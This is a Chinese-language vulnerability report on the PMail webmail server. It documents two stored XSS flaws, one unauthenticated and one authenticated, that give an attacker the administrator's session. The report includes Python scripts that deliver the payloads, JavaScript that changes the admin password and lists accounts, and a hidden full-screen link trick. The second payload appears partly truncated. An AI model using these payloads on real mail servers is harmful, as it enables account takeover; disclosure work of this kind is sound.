







# PMail 漏洞报告

软件名称：PMail

开发者或厂商：Jinnrry

代码仓库：https://github.com/Jinnrry/PMail

## 1. 未授权存储型 XSS 接管管理员会话

简要描述：攻击者投递一封带有恶意 HTML 附件的邮件，管理员打开这封邮件并点击页面任意位置，HTML脚本即被执行，可修改管理员密码。

影响版本：2.9.1 ~ 2.9.7

前置条件：管理员在 webmail 中打开攻击者投递的邮件。

### 漏洞成因

攻击者可以发出一份邮件，附件中包含一个恶意 HTML。用户查看邮件时，邮件详情接口 `/api/email/detail` 对邮件正文执行一次字符串替换，将正文里的 `cid:附件id` 替换成附件地址。相关代码如下：

```go
// services/detail/detail.go:49-58    commit a6049bf
	if email.Attachments != "" {
		var atts []parsemail.Attachment
		_ = json.Unmarshal([]byte(email.Attachments), &atts)
		for _, att := range atts {
			email.Html = sql.NullString{
				String: strings.ReplaceAll(email.Html.String, fmt.Sprintf("cid:%s", att.ContentID), fmt.Sprintf("/attachments/%d/%s", id, att.ContentID)),
			}
		}
	}
```

于是，攻击者只需在正文中写入 `cid:附件id`，就能得到一个指向恶意附件的链接。用户打开该链接时，`/attachments/{id}/{cid}` 将附件原样输出，于是恶意 HTML 被执行。代码如下：

```go
// controllers/attachments.go:13-30    commit a6049bf
func GetAttachments(ctx *context.Context, w http.ResponseWriter, req *http.Request) {
	urlInfos := strings.Split(req.RequestURI, "/")
	if len(urlInfos) != 4 {
		response.NewErrorResponse(response.ParamsError, "", "").FPrint(w)
		return
	}
	emailId := cast.ToInt(urlInfos[2])
	cid := urlInfos[3]

	contentType, content := attachments.GetAttachments(ctx, emailId, cid)

	if len(content) == 0 {
		response.NewErrorResponse(response.ParamsError, "", "").FPrint(w)
		return
	}
	w.Header().Set("Content-Type", contentType)
	w.Write(content)
}
```

额外地，攻击者可以配置 `style` 属性，所以链接可以写成铺满整个视口、字号为 0 的元素，管理员在邮件内容区域的任意位置点击都会命中该链接，而链接文字不会显示：

```html
<a href="http://127.0.0.1:8080/cid:tx0"
   style="position:fixed;inset:0;z-index:2147483647;font-size:0;background:rgba(0,0,0,0.08) repeating-linear-gradient(45deg,transparent 0 12px,rgba(0,0,0,0.18) 12px 24px)">Open document</a>
```

### 复现环境搭建

实验环境使用官方镜像部署，操作如下：

```bash
mkdir -p pmail/config/ssl pmail/config/dkim
cd pmail
openssl req -x509 -newkey rsa:2048 -keyout config/ssl/pmail.key -out config/ssl/pmail.crt -days 3650 -nodes -subj "/CN=pmail.local"
openssl genpkey -algorithm RSA -pkeyopt rsa_keygen_bits:2048 -out config/dkim/dkim.priv
openssl rsa -in config/dkim/dkim.priv -pubout -out config/dkim/dkim.public
docker run -d --name pmail -p 8080:80 -p 2525:25 -v $(pwd)/config:/work/config ghcr.io/jinnrry/pmail:latest
```

浏览器打开 `http://127.0.0.1:8080`，按向导依次填写 SQLite 数据库（DSN 为 `/work/config/pmail.db`）、管理员账号与口令、邮件域名与 web 域名（本环境均为 `pmail.local`），证书步骤选择使用自有证书，私钥和证书分别填 `/work/config/ssl/pmail.key`、`/work/config/ssl/pmail.crt`。

DKIM 私钥需要在向导结束前就位，否则进程会因为加载不到 `/work/config/dkim/dkim.priv` 而退出。

### 复现过程

攻击者向目标的 25 端口投递邮件，无需认证。正文中放入指向 `cid:tx0` 的链接，附件是一个 `Content-Type` 为 `text/html`、`ContentID` 为 `tx0` 的 HTML 页面：

```python
import smtplib
import time

body = """<p>Hi,</p>
<p>Please review the shared document I mentioned earlier.</p>
<p><a href="http://127.0.0.1:8080/cid:tx0"
      style="position:fixed;inset:0;z-index:2147483647;font-size:0;background:rgba(0,0,0,0.08) repeating-linear-gradient(45deg,transparent 0 12px,rgba(0,0,0,0.18) 12px 24px)">Open document</a></p>
<p>Regards,<br>Alice</p>
"""

attachment = """<html><body>
<h2>Session compromised</h2>
<pre id="out"></pre>
<script>
const post = (u, d) => fetch(u, {method: 'POST', headers: {'Content-Type': 'application/json'}, body: JSON.stringify(d)}).then(r => r.json());
(async () => {
  const info = await post('/api/user/info', {});
  const users = await post('/api/user/list', {current_page: 1, page_size: 10});
  const changed = await post('/api/settings/modify_password', {password: 'Pwned12345.'});
  document.querySelector('h2').textContent = 'Hello ' + info.data.account + ', admin=' + info.data.is_admin + ', password changed: ' + changed.data;
  document.getElementById('out').textContent = users.data.list.map(u => u.Account).join(', ');
})();
</script>
</body></html>
"""

part1 = ('Content-Type: text/html; charset=utf-8\r\n'
         '\r\n' + body)

part2 = ('Content-Type: text/html; charset=utf-8\r\n'
         'Content-Disposition: attachment; filename="document.html"\r\n'
         'Content-ID: <tx0>\r\n'
         '\r\n' + attachment)

message = ('From: alice@evil.example\r\n'
           'To: admin@pmail.local\r\n'
           'Subject: Shared document\r\n'
           'MIME-Version: 1.0\r\n'
           'Content-Type: multipart/mixed; boundary="a3f9b1"\r\n'
           '\r\n'
           '--a3f9b1\r\n' + part1 +
           '\r\n--a3f9b1\r\n' + part2 +
           '\r\n--a3f9b1--\r\n')

with smtplib.SMTP('127.0.0.1', 2525, timeout=20) as s:
    s.sendmail('alice@evil.example', ['admin@pmail.local'], message.encode())

time.sleep(2)
print('sent')
```

管理员收件箱中出现这封邮件：



打开该邮件，页面被半透明遮罩盖住，即恶意链接的可点击范围，整个邮件内容区域都在其中：



在邮件内容区域的任意位置点击，浏览器打开该附件，脚本在 webmail 页面中执行，立即读取会话信息并重置管理员口令：



用新口令 `Pwned12345.` 登录：



成功获得管理员账号：



## 2. 已认证用户存储型 XSS 接管管理员会话

简要描述：普通账号发出的邮件在服务端不过滤 HTML，管理员按邮件 id 打开这封邮件的发件副本时被 XSS。

影响版本：2.7.2 ~ 2.9.7

前置条件：攻击者持有目标实例的普通账号。

### 漏洞成因

`/api/email/send` 接口发出邮件时，投递给收件人的那份 HTML 会经过清洗，但服务端还会按原样存一份发件副本。

详情接口 `/api/email/detail` 允许管理员读取任意邮件，代码如下：

```go
// services/detail/detail.go:20-29    commit a6049bf
func GetEmailDetail(ctx *context.Context, id int, markRead bool) (*response.EmailResponseData, error) {
	// 先查是否是本人的邮件
	var ue models.UserEmail
	_, err := db.Instance.Where("email_id = ? AND user_id = ?", id, ctx.UserID).Get(&ue)
	if err != nil {
		log.Error(err)
	}
	if ue.ID == 0 && !ctx.IsAdmin {
		return nil, errors.New("Not authorized")
	}
```

当管理员从后台读取这份邮件时，浏览器内即被执行代码。

### 复现环境搭建

环境搭建与第 1 节相同，另外创建一个普通账号，并让容器能够完成投递：

```bash
$ ADMIN_SESSION=$(curl -i -s -X POST http://127.0.0.1:8080/api/login -H 'Content-Type: application/json' \
    -d '{"account":"admin","password":"Admin12345."}' | grep -i '^set-cookie' | sed 's/.*session=\([^;]*\).*/\1/')
$ curl -s -b "session=$ADMIN_SESSION" -X POST http://127.0.0.1:8080/api/user/create \
    -H 'Content-Type: application/json' -d '{"account":"bob","username":"Bob","password":"Bob12345."}'
{"errorNo":0,"errorMsg":"","data":{"ID":2,"Account":"bob","Name":"Bob","Disabled":0,"IsAdmin":0}}
$ docker exec pmail sh -c 'echo "127.0.0.1 smtp.pmail.local" >> /etc/hosts'
```

### 复现过程

普通账号登录并发送一封正文带 `onerror` 的 HTML 邮件：

```python
import time

import httpx

html = """<p>Hi,</p>
<p>Please review the attached numbers.</p>
{const post=(u,d)=>fetch(u,{method:'POST',headers:{'Content-Type':'application/json'},body:JSON.stringify(d)}).then(r=>r.json());const i=await post('/api/user/info',{});const us=await post('/api/user/list',{current_page:1,page_size:10});document.body.innerHTML='<h2>Admin session compromised</h2><pre>'+JSON.stringify({info:i.data,accounts:us.data.list.map(u=>u.Account)},null,2)+'</pre>';})()">"""

client = httpx.Client(base_url="http://127.0.0.1:8080", timeout=30)
client.post("/api/login", json={"account": "bob", "password": "Bob12345."})
resp = client.post("/api/email/send", json={
    "to": [{"name": "Victim", "email": "victim@example.net"}],
    "subject": "Quarterly numbers",
    "html": html,
    "text": "Hi",
    "attrs": [],
})
print(resp.text)
time.sleep(3)
print(client.post("/api/email/list", json={
    "current_page": 1,
    "page_size": 10,
    "tag": '{"type":1,"status":-1,"group_id":-1}',
}).json()["data"]["list"][0]["id"])
```

输出如下，最后一行是发件副本的 id：

```
{"errorNo":0,"errorMsg":"","data":"Success"}
1
```

发件箱中可以看到这封邮件：



管理员通过 `http://127.0.0.1:8080/#/detail/1` 查看该邮件时，脚本立即执行，无需任何点击：



由此可更改管理员密码。